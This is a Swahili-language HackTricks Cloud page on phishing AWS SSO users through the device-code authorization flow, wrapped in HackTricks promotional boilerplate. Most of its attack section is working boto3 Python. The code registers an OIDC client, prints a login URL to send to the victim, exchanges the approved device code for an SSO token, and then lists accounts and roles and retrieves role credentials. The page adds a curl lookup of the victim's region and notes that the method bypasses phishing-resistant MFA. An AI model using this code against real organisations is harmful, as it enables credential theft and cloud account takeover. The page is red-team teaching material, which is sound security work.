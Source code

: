 # AWS - Kituo cha Utambulisho na SSO Usiothibitishwa Enum

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Udukuzi wa Kanuni ya Kifaa cha AWS

Awali ilipendekezwa katika [**chapisho hili la blogi**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), inawezekana kutuma **kiungo** kwa mtumiaji kutumia AWS SSO ambayo ikiwa **mtumiaji atakubali** mshambuliaji ataweza kupata **alama ya kujifanya kuwa mtumiaji** na kupata ufikiaji wa majukumu yote ambayo mtumiaji anaweza kupata katika **Kituo cha Utambulisho**.

Ili kutekeleza shambulio hili mahitaji ni:

* Mvamizi anahitaji kutumia **Kituo cha Utambulisho**
* Mvamizi lazima ajue **subdomain** inayotumiwa na mwathiriwa `<victimsub>.awsapps.com/start`

Kwa habari hizi, **mvamizi ataweza kutuma kiungo kwa mtumiaji** ambayo ikikubaliwa itatoa **mvamizi ufikiaji wa akaunti ya mtumiaji wa AWS**.

### Shambulio

1. **Kupata subdomain**

Hatua ya kwanza ya mvamizi ni kugundua subdomain ambayo kampuni ya mwathiriwa inatumia katika Kituo chao cha Utambulisho. Hii inaweza kufanywa kupitia **OSINT** au **kudhani + BF** kwa sababu nyingi zitatumia jina lao au mabadiliko ya jina lao hapa.

Kwa habari hii, inawezekana kupata eneo ambapo Kituo cha Utambulisho kilisakinishwa:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Tengeneza kiungo kwa muathiriwa & Tuma**

Chukua msimbo ufuatao ili kutengeneza kiungo cha kuingia kwenye AWS SSO ili muathiriwa aweze kujithibitisha.\
Kwa mfano, endesha msimbo huu kwenye konsoli ya python na usiitoke kwani baadaye utahitaji baadhi ya vitu kupata kibali:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Subiri mpaka mwathiriwa akubali**

Ikiwa mwathiriwa alikuwa **ameingia tayari kwenye AWS** atahitaji tu kukubali kutoa ruhusa, ikiwa hakuwa ameingia, atahitaji **kuingia kisha kukubali kutoa ruhusa**.\
Hivi ndivyo dirisha la ombi linavyoonekana hivi sasa:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Pata funguo ya ufikiaji wa SSO**

Ikiwa mwathiriwa amekubali ombi, endesha nambari hii ili **kuzalisha funguo ya ufikiaji wa SSO ukijifanya kuwa mtumiaji**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Tokeni ya ufikiaji wa SSO ni **halali kwa masaa 8**.

5. **Jifanye kuwa mtumiaji**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Kuwinda MFA isiyoweza kufikiwa kwa njia ya Phishing

Ni furaha kujua kwamba shambulio la awali **linafanya kazi hata kama "MFA isiyoweza kufikiwa" (webAuth) inatumika**. Hii ni kwa sababu **hatua za awali haziondoki katika kikoa cha OAuth kilichotumiwa**. Sio kama katika mashambulio mengine ya phishing ambapo mtumiaji anahitaji kuchukua nafasi ya kikoa cha kuingia, katika kesi hii hatua ya msimbo wa kifaa imeandaliwa ili **msimbo ujulikane na kifaa** na mtumiaji aweze kuingia hata kwenye mashine tofauti. Ikiwa ombi litakubaliwa, kifaa, kwa tu **kujua msimbo wa awali**, litaweza **kupata vibali** vya mtumiaji.

Kwa habari zaidi kuhusu hii [**angalia chapisho hili**](https://mjg59.dreamwidth.org/62175.html).

### Zana za Kiotomatiki

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Marejeo

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Jifunze kuhusu kuhack AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
